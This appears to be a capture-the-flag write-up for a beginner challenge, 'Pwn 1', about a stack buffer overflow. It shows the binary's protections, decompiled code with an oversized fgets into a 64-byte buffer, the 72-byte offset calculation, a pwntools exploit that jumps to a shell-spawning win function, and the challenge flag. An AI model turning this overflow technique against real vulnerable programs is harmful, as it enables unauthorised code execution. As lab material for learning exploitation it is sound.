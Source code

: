 # **Pwn 1**
Textbook buffer overflow with win function

I apparently first blooded this one LOL

# Executable
checksec :
```
[*] '/home/skuuk/n00bz/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
decompilation :
```C
void main(EVP_PKEY_CTX *param_1)
{
  char local_48 [64];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_48,0x50,stdin);
  system("cat fake_flag.txt");
  return;
}

void win(void)

{
  system("/bin/sh");
  return;
}
```
no canary, the only local on the stack is the buffer `local_48` itself so the returned address is at offset `64 + 8 = 72` 
(counting 8 bytes for the saved `rbp`)
# Exploit
```python
io = start()
io.sendline(b"a" * 72 + p64(exe.symbols['win']))
io.sendline("cat flag.txt")
io.interactive()
```
# Flag
```
n00bz{PWN_1_Cl34r3d_n0w_0nt0_PWN_2!!!}
```
